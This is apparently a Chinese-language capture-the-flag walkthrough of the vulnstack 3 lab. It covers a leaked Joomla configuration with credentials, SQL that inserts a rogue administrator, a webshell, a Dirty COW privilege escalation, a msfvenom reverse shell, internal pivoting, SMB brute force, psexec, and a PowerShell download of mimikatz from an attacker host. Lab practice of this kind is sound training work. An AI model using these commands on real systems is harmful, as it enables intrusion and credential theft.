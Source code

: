 # vlunstack 3



## 外网主机192.168.139.118

使用dirsearch扫描到配置文件"configuration.php~"

```php
<?php
class JConfig {
	public $offline = '0';
	public $offline_message = '网站正在维护。<br /> 请稍候访问。';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'test';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $debug_lang_const = '1';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'testuser';
	public $password = 'cvcvgjASD!@';
	public $db = 'joomla';
	public $dbprefix = 'am2zu_';
	public $live_site = '';
	public $secret = 'gXN9Wbpk7ef3A4Ys';
	public $gzip = '0';
	public $error_reporting = 'default';
	public $helpurl = 'https://help.joomla.org/proxy?keyref=Help{major}{minor}:{keyref}&lang={langcode}';
	public $ftp_host = '';
	public $ftp_port = '';
	public $ftp_user = '';
	public $ftp_pass = '';
	public $ftp_root = '';
	public $ftp_enable = '0';
	public $offset = 'UTC';
	public $mailonline = '1';
	public $mailer = 'mail';
	public $mailfrom = 'test@test.com';
	public $fromname = 'test';
	public $sendmail = '/usr/sbin/sendmail';
	public $smtpauth = '0';
	public $smtpuser = '';
	public $smtppass = '';
	public $smtphost = 'localhost';
	public $smtpsecure = 'none';
	public $smtpport = '25';
	public $caching = '0';
	public $cache_handler = 'file';
	public $cachetime = '15';
	public $cache_platformprefix = '0';
	public $MetaDesc = '';
	public $MetaKeys = '';
	public $MetaTitle = '1';
	public $MetaAuthor = '1';
	public $MetaVersion = '0';
	public $robots = '';
	public $sef = '1';
	public $sef_rewrite = '0';
	public $sef_suffix = '0';
	public $unicodeslugs = '0';
	public $feed_limit = '10';
	public $feed_email = 'none';
	public $log_path = '/var/www/html/administrator/logs';
	public $tmp_path = '/var/www/html/tmp';
	public $lifetime = '15';
	public $session_handler = 'database';
	public $shared_session = '0';
}
```

oomla默认后端编辑模板即可getshell,查看官网[如何恢复或重置管理员密码？ - Joomla! Documentation](https://docs.joomla.org/How_do_you_recover_or_reset_your_admin_password%3F/zh-cn)

可以通过添加账号密码的方式添加管理员账号 admin2 secret

```mysql
INSERT INTO `am2zu_users`
   (`name`, `username`, `password`, `params`, `registerDate`, `lastvisitDate`, `lastResetTime`)
VALUES ('Administrator2', 'admin2',
    'd2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '', NOW(), NOW(), NOW());
INSERT INTO `am2zu_user_usergroup_map` (`user_id`,`group_id`)
VALUES (LAST_INSERT_ID(),'8');

```

![image-20240926005326219](W:\note\cyber_security\靶场\vulnhub\ai-web3\image-20240926005326219.png)

![image-20240926005401217](W:\note\cyber_security\靶场\vulnhub\ai-web3\image-20240926005401217.png)

![image-20240926005439866](W:\note\cyber_security\靶场\vulnhub\ai-web3\image-20240926005439866.png)

创建webshell文件

![image-20240926005500108](W:\note\cyber_security\靶场\vulnhub\ai-web3\image-20240926005500108.png)

连接后发现无法执行命令，换蚁剑使用绕过disable_functions插件

![image-20240926112759298](W:\note\cyber_security\靶场\hongri\vulnstack-3\image-20240926112759298.png)

成功连接

![image-20240926112853965](W:\note\cyber_security\靶场\hongri\vulnstack-3\image-20240926112853965.png)

信息收集

![image-20240926122315949](W:\note\cyber_security\靶场\hongri\vulnstack-3\image-20240926122315949.png)

发现存在双网卡192.168.93.120

同时发现系统显示为Ubuntu

发现一个泄露ssh的文件（顺的图，nnd我一直没有这个文件受不了了）

![image-20240927222613841](W:\note\cyber_security\靶场\hongri\vulnstack-3\image-20240927222613841.png)

wwwuser/wwwuser_123Aqx

![image-20240927222810672](W:\note\cyber_security\靶场\hongri\vulnstack-3\image-20240927222810672.png)

可以确定这台主机为centos，web服务应该是ubuntu启动的服务，通过nginx用centos进行转发

同时权限较低，根据信息收集的结果采用脏牛提取

上传dirty.c文件到centos上并编译

```shell
gcc -pthread dirty.c -o dirty -lcrypt
```

将编译后的可执行文件dirty移动到tmp目录下

```
mv dirty /tmp
```



![image-20240927225801609](W:\note\cyber_security\靶场\hongri\vulnstack-3\image-20240927225801609.png)

![image-20240927225903306](W:\note\cyber_security\靶场\hongri\vulnstack-3\image-20240927225903306.png)

上线msf方便后续内网渗透

```shell
msfvenom -p linux/64/meterpreter/reverse_tcp lhost=192.168.52.128 lport=9090 -f elf > msf.elf
```

```shell
msfconsole 
use exploit/multi/handler
set lhost 192.168.52.128
set lport 9090
set payload linux/x64/meterpreter/reverse_tcp
```

![image-20240927235906600](W:\note\cyber_security\靶场\hongri\vulnstack-3\image-20240927235906600.png)

进行内网探测

首先加路由，方便msf和192.168.93.100主机进行通信

```shell
run autoroute -s 192.168.93.0/24
```



```shell
background
#将shell挂起后台
use auxiliary/scanner/smb/smb_version
#使用smb辅助扫描模式
set rhost 192.168.93.0/24
#设置目标主机c段
run
```

![image-20240928001713862](W:\note\cyber_security\靶场\hongri\vulnstack-3\image-20240928001713862.png)

扫到三台主机

192.168.93.10，192.168.93.20，192.168.93.30

使用smb登录爆破模块

```shell
use auxiliary/scanner/smb/smb_login
```

没爆出来（用别人爆出来的结果）

```shell
use auxiliary/scanner/smb/smb_login
set user_file /root/Desktop/user.txt
set pass_file /root/Desktop/pass.txt
set rhosts 192.168.93.30
run
```

![image-20240928170754214](W:\note\cyber_security\靶场\hongri\vulnstack-3\image-20240928170754214.png)

使用下面psexec模块

```shell
use exploit/windows/smb/psexec 
set payload windows/meterpreter/bind_tcp
set rhost 192.168.93.30
set smbuser administrator
set smbpass 123qwe!ASD
```

至此获取第二个会话

![image-20240928172921419](W:\note\cyber_security\靶场\hongri\vulnstack-3\image-20240928172921419.png)

查看内网情况

![image-20240928173656300](W:\note\cyber_security\靶场\hongri\vulnstack-3\image-20240928173656300.png)

![image-20240928173709340](W:\note\cyber_security\靶场\hongri\vulnstack-3\image-20240928173709340.png)

发现域控主机位192.168.93.10



```
powershell (new-object Net.WebClient).DownloadFile('http://192.168.93.100:8888/kiwikatz.exe','C:\mimikatz.exe')
```



